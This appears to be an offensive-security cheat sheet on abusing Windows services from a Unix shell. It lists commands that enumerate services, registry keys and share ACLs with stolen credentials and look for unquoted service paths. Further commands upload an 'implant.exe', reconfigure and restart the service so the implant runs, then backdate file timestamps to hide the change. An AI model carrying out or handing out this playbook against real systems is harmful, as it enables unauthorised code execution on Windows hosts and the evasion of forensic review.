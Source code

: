 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ net rpc service list -U "<username>%<password>" -S <IP>

$ net rpc service status <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> list

$ services.py "<username>":"<password>"@<IP> config -name <service>

$ services.py "<username>":"<password>"@<IP> status -name <service>
```

```
$ regshell

$ reg.py "<username>":"<password>"@<IP> query -keyName
```

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ Windows/
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/Program Files/Unquoted Path Service"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

```
$ services.py "<username>":"<password>"@<IP> change -name <service>
```

```
$ net rpc service stop <service> -U "<username>%<password>" -S <IP>

$ net rpc service start <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> stop -name <service>

$ services.py "<username>":"<password>"@<IP> start -name <service>
```

## 03 - Cleanup


```
smb: \> help utime
HELP utimes:
		<file name> <create_time> <access_time> <mod_time> <ctime> set times

smb: \> utime file.txt [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS
```